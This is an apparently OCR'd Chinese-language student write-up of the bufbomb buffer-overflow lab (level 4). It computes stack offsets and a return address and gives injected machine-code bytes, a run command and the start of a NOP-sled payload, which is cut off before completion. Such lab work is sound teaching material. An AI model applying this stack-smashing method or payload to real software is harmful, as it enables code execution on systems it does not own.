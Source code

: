 ```cpp
67 8d 6c 24 28
8b 04 25 08 d1 04 08
68 3a 8e 04 08
c3

问题2.
截图中可以看到getbufn中%ebp的范围是0x55683570~0x55683650
那么buf起始地址 %ebp - 0x208 的范围就是0x55683368~0x55683448
为了保证代码被执行，代码放置的位置应该大于buf的最大起始地址，并使getbuf中的ret语句跳转的位置为buf的最大起始地址。
对于buf起始地址较小的情况，用空语句nop填充，随后当地址大于buf的最大起始地址后再写入有效的执行语句
(字符被读入buf是先存储在低内存地址的，而代码也是低内存地址的先被执行)

最大最小地址的差值为0xe0(224)，因此getbufn应该读入的内容为:
224个nop + 插入buf的代码 + getbufn的ret语句应该转跳的位置
(getbufn的ret语句应该转跳的位置即buf最大起始地址0x55683448)

那么，buf首地址离栈底的距离是多少呢
换句话说我们要填入多少数据才能准确地改变
getbufn函数中ret语句执行时取到的值呢
根据<getbufn>如下四行代码

push   %ebp
mov    %esp,%ebp
sub    $0x218,%esp //这行没什么用
lea    -0x208(%ebp),%eax

0x208+0x4 = 0x20c = 524
我们填充的nop加上插入buf中的代码总共524字节
然后是4字节的跳转地址(55683448)


在使用用户名"random"时，这是一个可行的答案
cat level4.txt |./hex2raw -n|./bufbomb -n -u random
(0x55682f80 - 0x208 = 55682d78)
./makecookie random
0x3d3d0469

level4.txt:
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
```